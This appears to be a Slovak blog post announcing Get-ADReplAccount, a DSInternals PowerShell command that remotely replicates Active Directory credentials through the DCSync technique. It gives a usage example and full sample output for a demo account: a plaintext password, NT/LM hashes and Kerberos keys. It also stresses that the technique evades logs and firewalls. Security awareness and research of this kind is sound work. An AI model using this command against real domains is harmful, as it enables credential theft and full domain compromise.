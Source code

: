 ```yaml
---
ref: retrieving-active-directory-passwords-remotely
title: 'Vykrádanie hesiel z&nbsp;Active Directory na&nbsp;diaľku'
date: 2015-08-03T20:35:52+00:00
layout: post
lang: sk
permalink: /sk/vykradanie-hesiel-z-active-directory-na-dialku/
tags:
    - 'Active Directory'
    - PowerShell
    - Prednášky
    - Security
---
```


Predstavujem Vám príkaz **Get-ADReplAccount**, najnovší prírastok do môjho [PowerShell modulu DSInternals](/sk/na-stiahnutie/), ktorý umožňuje z doménových kontrolérov na diaľku získať plaintextové heslá, hashe hesiel a Kerberos kľúče všetkých používateľov. Toho dosahuje tým, že simuluje chovanie príkazu **dcromo** a cez protokol [MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) si vytvorí repliku všetkých dát v Active Directory databáze. Podľa mojich informácií sa jedná o jediný verejne dostupný nástroj svojho druhu na svete. Ďalej má tieto vlastnosti:

- Ku svojej činnosti nevyžaduje ani práva doménového správcu. Bohate si&nbsp;vystačí s&nbsp;oprávnením **Replicating Directory Changes All**, ktoré má napríklad DirSync, Cisco WAAS či&nbsp;zle nakonfigurovaný SharePoint.
- Otvára dvere dokorán ďalším útokom, ako sú pass-the-hash, pass-the-ticket či&nbsp;PAC spoofing, pomocou ktorých je&nbsp;útočník schopný dostať pod&nbsp;kontrolu celý Active Directory forest. Takéto útoky zvláda napríklad nástroj [mimikatz](https://blog.gentilkiwi.com/mimikatz).
- Nedá sa&nbsp;zablokovať pomocou firewallu, pretože by&nbsp;to&nbsp;základnú funkčnosť Active Directory.
- V logoch na&nbsp;doménovom radiči zanecháva len&nbsp;minimálnu stopu, ktorú prehliadne väčšina bezpečnostných auditov.
- Nezneužíva žiadnu bezpečnostnú zraniteľnosť, ktorá by&nbsp;sa&nbsp;dala jednoducho opraviť v&nbsp;rámci aktualizácie systému.
- Jeho použitie nevyžaduje žiadne špeciálne vedomosti či&nbsp;prípravu. Útočníkovi stačí základná znalosť Active Directory.

Príklad použitia:

```powershell
Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP
```

<!--more-->

Ukážkový výstup:

```
DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222
```

Potenciál tohoto&nbsp;útoku (inak nazývaného DCSync) je&nbsp;teda veľký a&nbsp;mal by&nbsp;si&nbsp;toho byť minimálne vedomý každý manažér bezpečnosti a&nbsp;správca Active Directory.
